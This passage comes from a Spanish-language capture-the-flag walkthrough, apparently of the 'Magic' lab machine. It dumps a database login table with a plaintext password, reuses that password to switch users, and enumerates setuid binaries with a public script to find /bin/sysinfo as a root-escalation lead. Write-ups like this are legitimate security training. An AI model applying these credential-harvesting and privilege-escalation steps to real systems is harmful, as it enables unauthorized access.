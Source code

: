 ```console
MySQL [Magic]> show tables;
+-----------------+
| Tables_in_Magic |
+-----------------+
| login           |
+-----------------+
1 row in set (0.192 sec)

MySQL [Magic]> select * from login;
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
|  1 | admin    | Th3s3usW4sK1ng |
+----+----------+----------------+
1 row in set (0.277 sec)

MySQL [Magic]> 
```
Bien, encontramos lo que parece ser las credenciales para el usuario `theseus`.

```console 
www-data@ubuntu:/var/www/Magic$ su theseus
Password: Th3s3usW4sK1ng
theseus@ubuntu:/var/www/Magic$
```

![enter image description here](https://thumbs.gfycat.com/ChiefWavyLabradorretriever-size_restricted.gif)

## Análsis del binario sysinfo.

Ahora llego el momento de escalar a root, me dirigo a `/dev/shm` y subo un script de enumeración llamado [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration).

![](https://lh4.googleusercontent.com/HfT8gHCkp0d6bA2k05Lr2N4XY7QqFy9MDTC2PLJhWJ9GO_lMhBpeD6aNfvqypy7Co6--16I0xnKQ7WnJbKsYlNQy6g2D2UBia7PtSy8KdNyA5CxOXJtmAr32P3AEsdjFl244MMjF)

Si revisamos cuidadosamente la salida vemos que encontró un binario no común que llama mucho la atención.

```console
[!] fst020 Uncommon setuid binaries........................................ yes!                                                                                                                 
---                                                                                                                                                                                              
/usr/bin/vmware-user-suid-wrapper
/bin/sysinfo

```
Si revisamos los permisos, vemos que el usuario propietario es root.
```console
theseus@ubuntu:/dev/shm$ ls -la /bin/sysinfo
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
theseus@ubuntu:/dev/shm$
```
